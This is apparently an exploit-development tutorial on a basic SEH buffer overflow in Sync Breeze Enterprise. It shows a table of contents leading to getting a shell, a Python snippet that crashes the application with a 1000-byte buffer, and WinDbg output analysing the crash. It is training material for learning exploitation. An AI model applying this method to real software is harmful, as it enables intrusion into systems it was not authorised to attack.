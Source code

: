 # SEH Overflow - Basic

## Table of Contents.
* 1.0 [Crash the application.](#crash)
* 2.0 [Analyse the crash.](#analyse)
* 3.0 [Inspecting the exception handler chain.](#exchain)
* 4.0 [Gaining Control of Exception Hanlder.](#GCEH)
* 5.0 [Detecting Bad Characters.](#BadChars)
* 6.0 [Finding a P/P/R Instruction.](#PPR)
* 7.0 [Gaining control of Instruction Pointer.](#ESP)
* 8.0 [Short Jump.](#ShortJump)
* 9.0 [Locate the shellcode.](#LocateShellcode)
* 10.0 [Reach our shellcode.](#ReachShellcode)
* 11.0 [Get a Shell!](#Shell)

### 1. Crash the application.<a name="crash"></a>

```python
...
size = 1000

inputBuffer = b"A" * size
...
```

### 2. Analyse the crash.<a name="analyse"></a>

Insepcting at the time of the crash, i can see that thise time EIP isn't overwritten, but EAX register is. 

The crash occurs when executing the instruction "call dword..." because this address is not mapped in memory, in fact, executing it trigger an access violation.

```bash
0:010> g
(13d4.1280): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=0073fa0c ecx=0073ff08 edx=0073f9c4 esi=0073ff08 edi=0073fb10
eip=00852a9d esp=0073f998 ebp=0073feb8 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
libpal!SCA_ConfigObj::Deserialize+0x1d:
00852a9d ff5024          call    dword ptr [eax+24h]  ds:0023:41414165=????????
```

At this step, the debugger intercepted a first chance exception.

First chance exception = A notification that an unexpected event occured during the program execution.

We can see too that few registers containt a chunk of our buffer.
